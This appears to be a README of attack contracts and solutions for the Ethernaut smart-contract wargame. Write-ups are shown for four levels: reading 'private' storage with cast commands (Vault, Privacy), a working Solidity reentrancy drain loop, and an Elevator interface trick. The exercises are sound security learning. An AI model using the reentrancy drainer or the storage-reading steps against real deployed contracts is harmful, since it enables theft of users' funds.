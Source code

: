 # Attack contracts and solutions for Ethernaut levels

## Notes

### Level 01 - Hello Ethernaut

### Level 02 - Fallback

### Level 03 - Coin Flip

### Level 04 - Telephone

### Level 05 - Token

### Level 06 - Delegation

### Level 07 - Force

### Level 08 - Vault

This level demonstrates that all data on the blockchain is public, even if marked as `private` in Solidity.

**Steps to solve:**

1. **Get the contract's storage data**
   - Get the deployed contract address from Ethernaut
   - Use the `cast storage` command to read the value at storage slot 1 (where the password is stored)

   ```bash
   cast storage 0x7f28d1dABCcCB4d88C305Ed18499aa6A8A1F8AD2 1 --rpc-url $SEPOLIA_RPC_URL
   ```

   Result:
   ```
   0x412076657279207374726f6e67207365637265742070617373776f7264203a29
   ```

2. **Decode the password**
   - Convert the hex value to ASCII to see the actual password

   ```bash
   cast to-ascii 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
   ```

   Result:
   ```
   A very strong secret password :)
   ```

3. **Unlock the vault**
   - Call the `unlock()` function with the password as parameter

   ```bash
   cast send 0x7f28d1dABCcCB4d88C305Ed18499aa6A8A1F8AD2 "unlock(bytes32)" 0x412076657279207374726f6e67207365637265742070617373776f7264203a29 --rpc-url $SEPOLIA_RPC_URL
   ```

### Level 10 - Reentrancy
    - The attack exploits a reentrancy vulnerability in the target contract
    - Steps of the attack:
      1. First, we donate ETH to the contract to establish a balance for our attack contract
      2. Then we call withdraw() to start withdrawing our funds
      3. When the target contract sends ETH to our attack contract, it triggers our fallback function
      4. Inside the fallback function, we recursively call withdraw() again before the target contract can update our balance
      5. This creates a loop that drains all funds from the target contract
      6. Once the target contract's balance is less than or equal to our initial donation amount, we withdraw the remaining balance

```solidity
// Key parts of the attack:
function attack() payable public {
    amount = msg.value;
    // First donate to the contract
    CONTRACT.call{value: msg.value}(abi.encodeWithSignature("donate(address)", address(this)));
    // Then withdraw to trigger the reentrancy
    CONTRACT.call(abi.encodeWithSignature("withdraw(uint256)", amount));
}

fallback() external payable {
    // Recursive call to withdraw() before balance is updated
    if (CONTRACT.balance > amount) {
        CONTRACT.call(abi.encodeWithSignature("withdraw(uint256)", amount));
    }
    else if (CONTRACT.balance <= amount) {
        CONTRACT.call(abi.encodeWithSignature("withdraw(uint256)", CONTRACT.balance));
    }
}
```

### Level 11 - Elevator
    - The attack exploits a trust issue in the Elevator contract which relies on an external interface implementation
    - The Elevator contract calls the `isLastFloor()` function of the caller contract twice, expecting consistent behavior
    - Steps of the attack:
      1. We implement the `isLastFloor()` function in our attack contract with state-changing behavior
      2. On the first call, it returns `false` to make the elevator start moving
      3. On the second call, it returns `true` to make the elevator think it reached the top floor
      4. This exploits the fact that the Elevator contract doesn't verify that the Building interface implementation is trustworthy

```solidity
// Key parts of the attack:
bool booly = false;

function attack(uint256 _floor) public {
    (bool success,) = CONTRACT.call(abi.encodeWithSignature("goTo(uint256)", _floor));
    require(success == true, "Tx reverted!");
}

function isLastFloor(uint256) external returns (bool) {
    if(booly == false) {
        booly = true;
        return false;    
    }
    else {
        return true;
    }
}
```

### Level 12 - Privacy

This level demonstrates that all data on the blockchain is public and accessible, even if variables are marked as `private` in Solidity.

**Steps to solve:**

1. **Understand the storage layout**
   - The contract has a `bytes32[3] private data` array
   - The unlock function requires the first 16 bytes of `data[2]` to unlock the contract
   - Due to Solidity's storage layout, `data[2]` is stored at storage slot 5

2. **Read the storage at slot 5 to get data[2]**
   ```bash
   cast storage 0xd02113fA1907e896939c6FA3fD3dBE7E63060c09 5 --rpc-url $SEPOLIA_RPC_URL
   ```

   Result:
   ```
   0x7b16735bad0f51bc24904d07ac5b2329c297b105c1ba46743e3e30215f48f756
   ```

3. **Extract first 16 bytes and call unlock**
   - The `unlock()` function requires bytes16, which is the first half of the bytes32 value
   - Extract the first 32 characters after 0x: `0x7b16735bad0f51bc24904d07ac5b2329`

   ```bash
   cast send 0xd02113fA1907e896939c6FA3fD3dBE7E63060c09 "unlock(bytes16)" 0x7b16735bad0f51bc24904d07ac5b2329 --rpc-url $SEPOLIA_RPC_URL
   ```

   Verification:
   ```bash
   # Check if locked is now false (0)
   cast storage 0xd02113fA1907e896939c6FA3fD3dBE7E63060c09 0 --rpc-url $SEPOLIA_RPC_URL
   # Result: 0x0000000000000000000000000000000000000000000000000000000000000000
   ```

### Level 13 - Gatekeeper One

### Level 14 - Gatekeeper Two

### Level 15 - Naught Coin

### Level 16 - Preservation

### Level 17 - Recovery

### Level 18 - Magic Number

### Level 19 - Alien Codex

### Level 20 - Denial

### Level 21 - Shop

### Level 22 - Dex

### Level 23 - Dex Two

### Level 24 - Puzzle Wallet

### Level 25 - Motorbike

### Level 26 - DoubleEntryPoint

### Level 27 - Good Samaritan

### Level 28 - Gatekeeper Three

### Level 29 - Switch

### Level 30 - HigherOrder

### Level 31 - Stake

### Level 32 - Impersonator

### Level 33 - Magic Animal Carousel